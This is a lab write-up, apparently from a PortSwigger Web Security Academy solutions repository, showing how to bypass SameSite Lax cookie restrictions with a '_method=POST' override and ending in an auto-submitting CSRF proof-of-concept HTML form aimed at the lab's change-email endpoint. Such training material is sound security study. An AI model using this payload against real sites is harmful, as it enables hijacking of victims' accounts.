 ![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/6841e57a-c57a-4f55-96a5-bbee5c096463)

### Solution

Go to My-Account and Log In to the account with the above credentials and change your email address.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/ae5e217c-2296-4b5e-9198-91a022c07563)

Send the POST /my-account/change-email request to Burp Repeater.And Study the POST /my-account/change-email request and notice that this doesn't contain any unpredictable tokens so may be vulnerable to CSRF if you can bypass the SameSite cookie restrictions.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/001adbcc-062c-4818-bc7f-90f0d27e2171)

Look at the response to your POST /login request. Notice that the website doesn't explicitly specify any SameSite restrictions when setting session cookies. As a result, the browser will use the default Lax restriction level.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/f1d4a2e4-0182-449b-bdce-a2b10d0e2181)

tried changing the request from POST to GET but it was not successful

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/c10929cb-47e5-4d19-8faf-868e5ea7f517)

Try overriding the method by adding the _method parameter to the query string:

```js
/my-account/change-email?email=foo%40web-security-academy.net&_method=POST
```

Send the request. Observe that this has been accepted by the server.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/fe19dac6-31d7-4064-b57d-7a7869fd4e84)

generating csrf poc

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/e270efa4-f3a4-4d02-b4da-d1570b59d9e8)


payload

```js
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0abc00f1030ce1af82f01f6000cb00b6.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="foo&#64;web&#45;security&#45;academy&#46;net" />
      <input type="hidden" name="&#95;method" value="POST" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
Store and view the exploit yourself.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/72e6a30c-7d60-41cc-b538-c80efe2c8b38)

click deliver and solve the lab

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/3ec81ff0-8156-465c-bb16-7ff1f826b218)

